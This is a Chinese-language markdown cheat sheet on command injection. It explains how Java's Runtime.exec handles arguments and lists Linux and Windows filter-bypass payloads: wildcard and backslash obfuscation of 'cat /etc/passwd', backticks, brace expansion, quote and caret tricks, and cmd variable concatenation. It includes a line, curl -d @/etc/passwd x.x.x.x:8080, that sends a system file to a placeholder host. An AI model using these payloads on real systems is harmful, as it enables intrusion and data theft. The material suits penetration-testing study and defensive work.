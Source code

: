 - [命令注入](#命令注入)
  - [JAVA 命令注入](#java-命令注入)
  - [Bypass](#bypass)
    - [Linux](#linux)
    - [通配符](#通配符)
    - [字符串拼接](#字符串拼接)
    - [\\ (回车)](#-回车)
    - [curl -d](#curl--d)
    - [反引号](#反引号)
    - [大括号](#大括号)
    - [Windows](#windows)
    - [特殊符号](#特殊符号)
    - [set变量](#set变量)
    - [切割字符串](#切割字符串)

# 命令注入
## JAVA 命令注入
java常见的执行系统命令的方式主要是Runtime.exec或者直接new ProcessBuilder。因为在java中执行系统命令并不会自动创建shell，而是直接执行对应的可执行程序，所以代码中是否创建了shell决定了是否存在命令注入。  
其中字符串数组传参和字符串传参的方式类似，字符串的方式会经过切割还是分成字符串数组的形式。
* 没有创建shell的情况。
![](img/10-26-33.png)  
可以看到会将www.baidu.com&calc当作一个参数传入，导致命令注入失败，但这种情况可能存在参数注入的情况。
* 创建shell的情况
![](img/10-27-47.png)  
这种情况下会将第一个参数后面的字符串挨个当作参数传入，导致命令注入。
* 字符串完全可控
![](img/10-29-27.png)  
这种情况下我们可以直接自己创建shell，也是存在命令注入。

这是因为无论传参方式是字符串还是字符串数组的，都会经过切割(根据\t\b\r\f分隔)成为字符串数组，然后将数组的第一个字符串当作可执行程序，第二个当作参数名，后续的当作参数值进行传递，如果不创建shell的话，比如直接执行a.exe程序，而a.exe是不会解析如`；& |`这些命令注入的符号。只要在shell中才会解析这些符号造成命令注入。
## Bypass
### Linux
区别大小写
### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
### 反引号
```
``内的字符会被当成命令执行
```
### 大括号
{}代替空格  
`{ls,-alt}`
### Windows
不区分大小写
### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值